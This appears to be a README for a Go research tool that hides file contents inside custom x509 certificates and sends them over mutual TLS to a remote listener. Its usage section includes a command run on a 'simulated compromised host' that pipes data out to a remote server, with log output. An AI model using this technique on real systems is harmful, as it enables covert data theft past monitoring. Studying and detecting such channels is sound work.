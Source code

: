 # X509 Digital Certificate Exfiltration Exploration

## Overview

This project represents my initial venture into the Go programming language, focusing on data exfiltration techniques and their countermeasures. The primary goal is to develop a fun way to hide data by encoding a payload into a custom x509 digital certificate by reading from a file.

For an in-depth discussion on the topic, refer to my Medium article: [Abusing Certificates for Data Exfiltration](https://medium.com/@jeanmichel.amblat/abusing-certificates-for-data-exfiltration-d6bff2533cd0).

For those unfamiliar with the concepts of certificates and mutual TLS (mTLS), I recommend the following resources for a thorough understanding:

* [TLS, X509, and Mutual Authentication Explained](https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401)
* [A Step-by-Step Guide to mTLS in Go](https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go)

Certexfil operates in three modes: CA generation, client, and listener.

* `--ca` initializes a CA for certificate creation and authentication.
* `--payload` incorporates a file payload into a new client certificate for mTLS with a listener service.
* `--listen` launches a service that validates mTLS clients and extracts embedded payloads.

## Usage

### Setting Up CA and Listener on a Remote Server

To create `server_cert.pem` and `server_key.pem` for mTLS:

```shell
somewhere$ certexfil -ca -ecdsa-curve P521 --host remote.host.com
```

Ensure the certexfil binary and ./CERTS directory are on your remote server. Then, initiate the mTLS listener:
```shell
remoteserver$ ./certexfil --listen
```

### Client or Simulated Compromised Host
Embedding output as a payload:

```shell
06:46:00 jma@wintermute Go-Workspace → echo 'w00t w00t' | certexfil --host remote.server.com  --payload -
2019/05/31 18:48:27 [*] Reading from stdin..
2019/05/31 18:48:27 [D] Payload (raw)  --> w00t w00t...	(9 bytes)
2019/05/31 18:48:27 [D] Payload (Prepare()) --> �...		(31 bytes)
2019/05/31 18:48:27 [*] Generated custom cert with payload
Oo
```

## Contact

* @Sourcefrenchy
